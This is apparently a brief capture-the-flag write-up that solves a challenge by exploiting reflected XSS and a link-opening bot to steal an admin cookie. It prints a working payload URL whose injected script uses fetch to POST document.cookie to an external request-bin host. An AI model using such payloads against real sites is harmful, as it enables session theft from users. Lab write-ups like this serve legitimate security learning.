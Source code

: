 ```yaml
---
layout: post
title:  "AresX challenge"
image: ''
date:   2016-09-12 00:06:31
tags:
- mongodb
description: ''
categories:
- Learn Jekyll 
---
```


The challenge has two separate webpages one which is vulnerable to xss attacks and from which we must steal a cookie, and another where we can send links to be opened:
![](2022-08-11-11-18-01.png)
Figure 1 The first app


![](2022-08-11-11-18-14.png)
Figure 2 Second app
The input to be opened by it is : 
http://vanilla.hub/?name=<script>fetch('https://enzvin6fpk7xtu0.m.pipedream.net', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>


https://enqmimydnbiuecc.m.pipedream.net
For the purpose of this challenge request.bin

 ![](2022-08-11-11-18-26.png)
Figure 3 this is the stolen cookie
 ![](2022-08-11-11-18-35.png)
Figure 4 Vulnerable code in the application

 ![](2022-08-11-11-18-43.png)
Figure 5 Docker config hostname
Because the get request to the 3002 app will echo it to the page Reflected XSS is possible.  The bot on 3003 will open our request with the xss and we steal the cookie and then boom we’re done.
